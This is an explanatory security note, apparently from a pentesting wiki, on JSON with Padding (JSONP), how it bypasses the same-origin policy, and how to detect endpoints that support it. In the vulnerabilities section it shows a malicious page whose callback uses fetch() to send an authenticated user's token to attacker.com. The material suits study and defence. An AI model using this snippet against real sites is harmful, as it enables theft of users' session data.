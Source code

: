 >[!info] Pre-requisites:
>- [Cross-origin resource sharing (CORS)](Cross-origin%20resource%20sharing%20(CORS).md)
>- [Same-origin policy (SOP)](Same-origin%20policy%20(SOP).md)

# JSON with Padding (JSONP)

>[!question] What is JSONP?
>Is a historical [JavaScript](../Dev,%20scripting%20&%20OS/JavaScript%20&%20NodeJS.md) technique for requesting JSON data by loading a `<script>` element, enabling sharing of data across domains **bypassing** the [Same-origin policy (SOP)](Same-origin%20policy%20(SOP).md)

By default, the same origin policy prevents reading JSON cross site. JSONP is a little bit of a hack: it wraps JSON data in a JavaScript function call (previously defined in the original site). This makes it possible to read the JSON cross-site, by including the JSONP resource as a script.

JSON data to read: 
```json
{"name":"0xbro"}
```

JSONP data: 
```json
somefunction({"name":"0xbro"})
```

Reading the JSON cross site is possible by doing `<script src="https://my.webapp/data.jsonp">` where `somefunction` has already been defined in the source code:

```html
<script> 
	function somefunction(data) { 
		// The data variable will contain the JSON data. 
	}
</script>
<script src="https://my.webapp/data.jsonp">
```

Sometimes it is used a more dynamic approach, where the application requesting the data provides a parameter (usually `callback`) used to create the JSONP data:
```html
<script> 
	function parseResponse(data) { 
		// The data variable will contain the JSON data. 
	}
</script>
<script src="https://my.webapp/data?callback=parseResponse">

// JSONP result
parseResponse({"Name": "Clem", "Id": 1234, "Rank": 7});
```
# JSONP vulnerabilities

JSONP makes it possible to access data from another website in a [Cross-Site Request Forgery (CSRF)](Cross-Site%20Request%20Forgery%20(CSRF).md)-like style attack:
1. The attacker’s site includes the JSONP URL as a script. 
2. The browser performs the request, and sends cookies along if the user is authenticated. 
3. The JSONP will return the data for the authenticated user, and the attacker’s site can read that.

## Cross-site Request Forgery & Data Leakage

Naive deployments of JSONP are subject to [Cross-Site Request Forgery (CSRF)](Cross-Site%20Request%20Forgery%20(CSRF).md) attacks. Because the HTML `<script>` element does not respect the [Same-origin policy (SOP)](Same-origin%20policy%20(SOP).md) in web browser implementations, a malicious page can request and obtain JSON data belonging to another site. This will allow the JSON-encoded data to be evaluated in the context of the malicious page, possibly divulging passwords or other sensitive data if the user is currently logged into the other site.

Application JSONP endpoint:
```http
GET /api/getUserToken HTTP/1.1
Cookie: sessid=asd

get({"token":"supersecret-token"})
```

Malicious page redirecting user traffic to the JSONP endpoint and extracting the corresponding data:

```html
<script>
function get(data){
	fetch('https://attacker.com/?data='+JSON.stringify(data);
}
</script>
<script src='https://vulnerable.com/api/getUserToken'></script>
```

Other similar attacks and bypasses can be found below:
- Object method call
- Content-Type and X-Content-Type-Options bypass

```cardlink
url: https://securitycafe.ro/2017/01/18/practical-jsonp-injection/
title: "Practical JSONP Injection"
description: "JSONP injection is a lesser known but quite widespread and dangerous vulnerability and it surfaced in the last years due to the high rate of adoption of JSON, web APIs and the urging need for cross…"
host: securitycafe.ro
favicon: https://secure.gravatar.com/blavatar/c798a440ec703a17d8eda6a25b9dac06fa8162164e7e563dbc832069a934ce2b?s=32
image: https://kpmgsecurity.files.wordpress.com/2017/01/specified-callback-code.png
```

## Untrusted third-party code

Including script elements from remote servers allows the remote servers to inject _any_ content into a website. If the remote servers have vulnerabilities that allow JavaScript injection, the page served from the original server is exposed to an increased risk. If an attacker can inject any JavaScript into the original web page, then that code can retrieve additional JavaScript from any domain [^3rd-party]

[^3rd-party]: [Untrusted third-party code](https://en.wikipedia.org/wiki/JSONP#:~:text=%5Bedit%5D-,Untrusted%20third%2Dparty%20code,-%5Bedit%5D), wikipedia.org

## Callback name manipulation and reflected file download attack


# Detect hidden attack surface

Sometimes, JSONP is not used by the site but the API still supports it. To check an endpoint for JSONP support, try this:

- Add a callback parameter to a JSON URL, by appending `?callback=something` to the URL.
- When a format type is provided, change it to JSONP. Change `?format=json` to `?format=jsonp`

>[!example]
> Original site: https://demo.sjoerdlangkemper.nl/jsonp.php
>
>```json
{"hello":"world","number":8024046285436083725,"token":"4db7c9cc0bb2c73e10f543180dae83fd65fb4569b1a3cd9df62c1a33dfc72f75"}
>```
>Hidden supported parameters: https://demo.sjoerdlangkemper.nl/jsonp.php?format=jsonp&callback=pwned
>```json
>pwned({"hello":"world","number":2969561363119907216,"token":"4db7c9cc0bb2c73e10f543180dae83fd65fb4569b1a3cd9df62c1a33dfc72f75"})
>```

